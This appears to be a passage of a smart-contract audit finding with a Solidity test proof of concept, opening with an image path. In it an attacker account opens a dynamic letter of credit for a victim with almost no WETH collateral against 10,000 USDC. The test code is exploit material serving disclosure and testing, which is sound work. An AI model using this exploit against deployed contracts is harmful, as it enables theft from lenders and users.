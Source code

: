 Difficulty of the attack: Easy

It is easy to automate the attack

### Link to Proof of Concept

https://gist.github.com/Perseverancesuccess2021/378159d301fbb5249afdce7292d0692b#file-testletterofcredit-sol

### Proof of Concept

## Proof of concept

Steps to execute the attack:

Step 1: Attacker create a dynamicLOC with very small collateral

Test code to show: \`\`\`solidity function testCreateDynamicLOCHacked() public { scenario = 1; setup\_precondition(); uint96 loc\_id = createDynamicLOC();

```
}    

function createDynamicLOC() public  returns (uint96 loc_id) {

    console.log(&quot;Attacker to create a dynamic LOC for victim&quot;); 
    address _beneficiary &#x3D; user;                 
    address _collateralTokenAddress &#x3D; WETH; 
    uint256 _collateralTokenAmount &#x3D; 10**9;  // 10** 9 &#x3D; 10^-9 WETH  &#x3D; around 0.000_003 USDC  
    address _creditedTokenAddress &#x3D; USDC;
    uint256 _creditedTokenAmount  &#x3D; 10_000*10**6;         
    uint32 _expirationTimestamp &#x3D; uint32(block.timestamp + 43200000); 
    bytes memory signature_ &#x3D; CreateSignature(PrivateKey_2, _collateralTokenAmount, WETH, attacker_nonce++);
    bytes memory _oraclePriceUpdate &#x3D;  &quot;&quot;;
    mockPriceReturnData();        
    vm.startPrank(attacker);
    loc_id &#x3D; LetterOfCredit(LetterOfCredit_proxy).createDynamicLOC(_beneficiary, _collateralTokenAddress, _collateralTokenAmount, _creditedTokenAddress,_creditedTokenAmount, _expirationTimestamp, _oraclePriceUpdate, signature_);  
    vm.stopPrank(); 
    console.log(&quot;Loc id&quot;); 
    console.log(loc_id); 
    
    LetterOfCredit.LOC memory _loc &#x3D; LetterOfCredit(LetterOfCredit_proxy).getLOC(loc_id);
    console.log(&quot;LOC Details: collateralTokenAddress &quot;, _loc.collateralTokenAddress);
    console.log(&quot;LOC Details: collateralTokenAmount &quot;, _loc.collateralTokenAmount);
    console.log(&quot;LOC Details: creditedTokenAddress &quot;, _loc.creditedTokenAddress);
    console.log(&quot;LOC Details: creditedTokenAmount &quot;, _loc.creditedTokenAmount);
    

}
```
